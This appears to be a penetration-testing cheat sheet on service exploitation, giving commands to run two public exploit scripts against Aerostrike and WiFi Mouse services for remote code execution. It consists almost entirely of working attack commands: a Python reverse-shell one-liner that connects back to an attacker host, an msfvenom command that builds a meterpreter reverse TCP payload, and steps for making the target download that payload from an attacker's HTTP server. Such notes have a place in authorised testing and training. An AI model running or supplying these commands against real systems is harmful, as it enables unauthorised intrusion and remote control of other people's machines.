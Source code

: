 # 03 - Service Exploitation

Index
- [Example: reverse shell](#Example-reverse-shell)
    - [ID 49067 RCE and Reverse Shell: AEROSTRIKE](#ID-49067-RCE-and-Reverse-Shell)
    - [ID 49601 RCE and Reverse Shell: WiFi Mouse](#ID-49601-RCE-and-Reverse-Shell)

## Example: reverse shell
### ID 49067 RCE and Reverse Shell
Aerostrike RCE:
``` bash
python 49067.py --ahost 192.168.1.1 -aport 3000 --cmd "id"
```
Python Reverse Shell example:
``` bash
## require nc listener: nc -nvlp 443
python 49067.py --ahost 192.168.1.1 --cmd "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$KALI\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'"
```

### ID 49601 RCE and Reverse Shell
WiFi Mouse Reverse Shell - tcp\1978 (???):
``` bash
## create a payload
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$KALI LPORT=443 -f exe > payload.exe
## require multi/handler and HTTP server (port 8080 in my example) to download the payload
python2.7 49601.py 192.168.1.1 $KALI:8080 met.exe
```